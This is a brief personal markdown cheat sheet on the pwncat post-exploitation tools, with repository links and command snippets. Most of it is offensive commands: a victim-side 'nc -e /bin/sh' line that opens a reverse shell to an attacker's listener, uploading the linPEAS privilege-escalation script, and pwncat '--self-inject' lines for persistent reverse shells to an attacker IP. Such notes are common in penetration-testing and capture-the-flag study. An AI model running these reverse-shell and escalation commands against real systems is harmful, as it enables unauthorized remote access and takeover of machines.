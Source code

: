 # pwncat (john hammond)

https://github.com/calebstewart/pwncat.

https://pwncat.readthedocs.io/en/latest/usage.html

```
L >pwncat -l 4444
V >nc -e /bin/sh 10.0.0.1 4444
L >cntrl+d 
L >run help
```
``` 
(local) > upload /opt/linpeas.sh

(local) > enum -s -a
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS


# pwncat

https://github.com/cytopia/pwncat

unbreakable reverse shells
```
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444+3
cntrl+c 

pwncat -l 4444 -vv
or
nc -lnvp 4444
```
